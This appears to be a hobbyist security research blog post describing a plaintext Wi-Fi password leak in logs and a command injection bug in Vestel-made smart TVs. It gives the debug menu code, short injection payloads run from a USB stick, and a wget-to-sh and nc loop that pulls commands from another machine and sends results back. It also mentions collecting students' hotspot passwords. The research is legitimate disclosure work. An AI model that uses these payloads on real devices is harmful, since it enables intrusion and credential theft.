 ```yaml
---
title: "Hacking A Vestel TV"
date: 2023-02-07T21:35:39+01:00
draft: false
---
```

# Hacking A Vestel Smart TV
The 0DRG group decided to look at a readily avaliable voxicom smart TV as the first target.
The Voxicon smart TV is a rebranding of a Vestel TV, from a Turkish TV manufacturer.
Vestel makes TV's for several well known vendors:
1. Toshiba
2. Hitatchi
3. Medion
4. Polaroid
5. Finlux

The TV's come repackaged with a vendor specific config, but seem to otherwise be the same.

We found several bugs in the Vestel firmware:
1. Plaintext WPA password disclosed in logs
2. Command injection in device name

# Background
We started our analysis by exploring the functionality of the TV.
It contains what you would expect from a modern smart TV, 
including a webbrowser, apps, and an appstore.
Despite the TV looking like it was build with android, the appstore contained
next to no apps.

Some TV's come installed with the google play store, if that is the case then
a good first step is to download termux or similar.

Since this was not the case we were stuck with exploring the UI.

This yielded very little in the begging, so we decided to unscrew the backpanel
to get access to the main board.

The back panel came off easily and we could locate the mainboard, that contained the board model.
![Picture of the board](/Images/vestel_board_image.jpg)

The model of the board is `Vestel17B180E`, a bit of googling revealed the service manual [here](https://portal.repairtech.co.uk/downloads/17MB180E_SERVICE_MANUAL.PDF).
This shows a bunch of useful info, we might have needed if we didn't find another bug.

Googling vestel TV functionality led to the discovery of the debug menu.
This can be entered by:
1. Pressing home on the remote
2. Pressing `4725` on the numpad

![Debug menu](/Images/vestel_debug_menu.jpg)

The above screenshot shows an option regarding UART, which made us hopeful for UART access.
Despite a few hours of trial and error, we did not manage to read data from it however.

# Plaintext Password Disclosure
This bug is less severe but quite fun.
By dumping the logs to a FAT32 formatted thumbrive, using the dump logs option in the debug screen,
we noticed the plaintext password of the wifi's we had recently connected to.
Despite this not being a severe vulnerability, it still meant we could dump the phone hotspot passwords
of the TV's in our uni. Since most students would connect the TV to their phones hotspot if need be.

The password shows up in a log line looking like:
```
[PskEncryption, 1778]cmd = wpa_passphrase "wifi-name" "password"| grep '\spsk='
```

# Command Injection
The OS contains a command injection vulnerability in the device name.
By selecting `wifi display` as a source, a new menu item will appear in the settings menu.
This option is for changing the device name of the TV in wifi peering mode.
Changing this option triggers the following command to be run as the aurora user:
`sed -i 's/^device_name=.*/device_name=; [user input]' /conf/Miracast_Adapter.config`

We could confirm the vulnerability by entering `'; reboot &'`, which would reboot the TV.

## Getting useful execution
Rebooting is not a very useful primitive. We want to execute anything on the device.
This presented a problem because the input field for the device name was limited to 20 chars.
Two of which would go to the initial escape chars, so we're left with 18 characters of injection.

A quick brainstorm was made, and it was decided that the easiest method of payload delivery would be 
through the USB port.

Essentially, because the TV auto mounts any FAT32 usb that gets inserted, the mount path just needed to be short enough to put in the field. We could then put an executable named a single char, and get it to run.

Revisiting the logs, we found the mountpoint to be `/mnt/hd0a/` for our USB.
We then compiled a reverse shell to the specific ARM chip and executed:
```
';/mnt/hd0a/a &'
```
But nothing...

It turns out that for some reason the FAT32 did not support us making the file executable.
Annoying as that was, we managed to sidestep the issue using `sh` and shellscripts instead.
In  most shells you can execute `sh<script.sh` which is equivalent to `cat script.sh | sh`.
The file does not need to be executable because `sh` will be interpreting the script directly from stdin.

```
';sh</mnt/hd0a/a &'
```
This ended up being the final payload, with a shell script that would reboot the device.
![Shell injection](/Images/vestel_shell_inject.jpg)

Once we had access to the files on the TV, we were able to find the actual vulnerability doing some reverse engineering. It is located in the **ICE_WiDiResetFriendlyName** function of the aurora.elf file.


## Getting a shell (ish)
We tried various reverse shell payloads on the TV, but nothing worked.
After messing about with this for a few hours (we needed to manually insert the injection, as well as replace the file on the USB every time), we decided on going 100% jank and creating a pseudo shell instead.

The final shell would look like the following:
```
while True
do
wget http://192.168.0.6:8000/cmd -O - | sh 2&>1 | nc 192.168.0.6 8888 
sleep 2
done
```
On the networked machine, we would then start a webserver serving the `cmd` file with the command we wanted to run, as well as a listener with `nc` on port 8888 to recieve the results.
This worked, and we could browse the system without having to unplug and replug a USB for every command.

## Further Analysis
After messing around in the file system as a restricted user, we wanted to step up and find some over the air vulnerability.
We also wanted to explore the oppertunities for rooting the device.
This is still on the drawing block.
